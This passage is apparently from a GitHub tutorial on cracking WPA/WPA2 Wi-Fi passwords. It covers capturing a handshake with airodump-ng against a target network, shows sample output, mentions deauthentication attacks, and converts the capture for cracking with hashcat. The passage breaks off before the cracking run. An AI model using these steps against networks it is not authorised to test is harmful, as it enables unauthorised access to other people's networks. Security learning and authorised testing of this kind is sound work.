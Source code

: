 ```bash
# replace -c and --bssid values with the values of your target network
# -w specifies the directory where we will save the packet capture
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w . mon0
```
```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 9C:5C:8E:C9:AB:C0  -47   0      140        0    0   6  54e  WPA2 CCMP   PSK  ASUS  
```

Now we wait... Once you've captured a handshake, you should see something like `[ WPA handshake: bc:d3:c9:ef:d2:67` at the top right of the screen, just right of the current time. 

If you are feeling impatient, and are comfortable using an active attack, you can force devices connected to the target network to reconnect, by sending malicious deauthentication packets at them. This often results in the capture of a 4-way handshake. See the [deauth attack section](#deauth-attack) below for info on this. 

Once you've captured a handshake, press `ctrl-c` to quit `airodump-ng`. You should see a `.cap` file wherever you told `airodump-ng` to save the capture (likely called `-01.cap`). We will use this capture file to crack the network password. I like to rename this file to reflect the network name we are trying to crack:

```bash
mv ./-01.cap hackme.cap
```

### Crack the Network Password

The final step is to crack the password using the captured handshake. If you have access to a GPU, I **highly** recommend using `hashcat` for password cracking. I've created a simple tool that makes hashcat super easy to use called [`naive-hashcat`](https://github.com/brannondorsey/naive-hashcat). If you don't have access to a GPU, there are various online GPU cracking services that you can use, like [GPUHASH.me](https://gpuhash.me/) or [OnlineHashCrack](https://www.onlinehashcrack.com/wifi-wpa-rsna-psk-crack.php). You can also try your hand at CPU cracking with Aircrack-ng.

Note that both attack methods below assume a relatively weak user generated password. Most WPA/WPA2 routers come with strong 12 character random passwords that many users (rightly) leave unchanged. If you are attempting to crack one of these passwords, I recommend using the [Probable-Wordlists WPA-length](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length) dictionary files.

#### Cracking With `naive-hashcat` (recommended)

Before we can crack the password using naive-hashcat, we need to convert our `.cap` file to the equivalent hashcat file format `.hccapx`. You can do this easily by either uploading the `.cap` file to <https://hashcat.net/cap2hccapx/> or using the [`cap2hccapx`](https://github.com/hashcat/hashcat-utils) tool directly.

```bash
cap2hccapx.bin hackme.cap hackme.hccapx
```

Next, download and run `naive-hashcat`:
